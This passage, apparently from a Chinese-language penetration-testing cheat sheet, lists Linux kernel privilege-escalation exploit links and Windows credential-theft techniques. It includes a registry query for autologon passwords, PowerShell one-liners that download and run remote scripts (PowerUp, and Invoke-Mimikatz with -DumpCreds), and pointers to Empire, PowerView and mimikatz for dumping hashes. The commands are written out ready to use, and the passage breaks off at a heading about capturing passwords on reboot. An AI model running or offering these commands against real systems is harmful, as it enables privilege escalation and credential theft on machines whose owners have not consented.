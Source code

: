 内核提权：

```
CentOS 2.6.32 (2013年之前)
https://www.exploit-db.com/exploits/25444/
CVE-2010-3847 (RHEL5版本)
https://www.nigesb.com/cve-2010-3847-exp-centos.html
https://www.exploit-db.com/exploits/25444/
```

枚举提权：

```
searchsploit (本地搜索漏洞库)
linuxprivchecker.py (自动检测提权漏洞的脚本)
```

##### 密码获取

注册表读取自动登陆帐户密码：

```
(cmd) reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
(msf) post/windows/gather/credentials/windows_autologin
```

powershell篇：
```
1.Empire 【综合渗透工具，类似于msf】
可以生成木马，信息收集，提权，横向渗透以及后门
https://github.com/EmpireProject/Empire.git

2.PowerUp 提权神器
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://192.168.31.247/PowerUp.ps1');Invoke-AllChecks”
powershell -exec bypass -Command "& {Import-Module .PowerUp.ps1; Invoke-AllChecks}"

3.PowerView 域渗透神器
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

```

powershell读取系统密码【示例，需要xp和2003以上的系统才自带powershell】：
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
powershell.exe -exec bypass -Command "& {Import-Module .\powerview.ps1;Invoke-UserHunter}"
powershell===>Import-Module .\powerview.ps1 ===>Invoke-UserHunter
```

导出系统密码或者hash,在导出域hash部分有详细介绍：

```
meterpreter/mimikatz/pwdump7/wce/Getpwd_k8/QuarksPwDump
https://github.com/gentilkiwi/mimikatz/
```

重启记录密码：
